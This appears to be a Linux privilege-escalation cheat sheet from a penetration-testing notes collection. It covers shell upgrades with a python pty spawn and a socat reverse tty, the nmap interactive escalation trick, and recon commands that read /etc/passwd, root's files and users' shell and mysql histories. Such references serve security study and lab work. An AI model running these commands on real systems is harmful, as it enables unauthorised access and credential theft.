 |  Name   |                                      Description                                       |                   Source & Documentation                    |
|:-------:|:--------------------------------------------------------------------------------------:|:-----------------------------------------------------------:|
| Linpeas | Gather useful post exploitation datas on GNU/Linux, watch privesc opportunities faster | https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS |

- Privilege escalation with nmap :  
```vim
nmap --interactive
```

A checklist for linux privesc. Might be missing lots of things. Is mostly taken from https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

Do you have a decent shell?
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")' 
echo os.system('/bin/bash') 
/bin/sh -i
```
To get tab completion working
```bash
ctrl+z
echo $TERM && tput lines && tput cols

stty raw -echo
fg

reset
export SHELL=bash 
export TERM=xterm-256color (screen when running tmux)
stty rows <num> columns <cols>
```
Or use Socat for a full reverse tty
```bash
socat file:`tty`,raw,echo=0 tcp-listen:12345
```


###  Initial Recon
Start by checking the version and distro of the machine for possible kernel exploits, and also the sudo permissions of whatever account you have if possible.
```bash
lsb_release -a && uname -a 
cat /etc/issue
cat /etc/*-release
cat /proc/version
sudo -l
```
To do things quick, run the LinEnum script from Rebootuser.

https://github.com/rebootuser/LinEnum

Check for plaintext passwords with it
```bash
./LinEnum.sh -t -k password
```
What users have shells on the box?
```bash
grep -vE "nologin|false" /etc/passwd
```
Anything in users home directories or mail?
```bash
ls -ahlR /root/
ls -ahlR /home/
cat ~/.bash_history
cat ~/.nano_history
cat ~/.atftp_history
cat ~/.mysql_history
```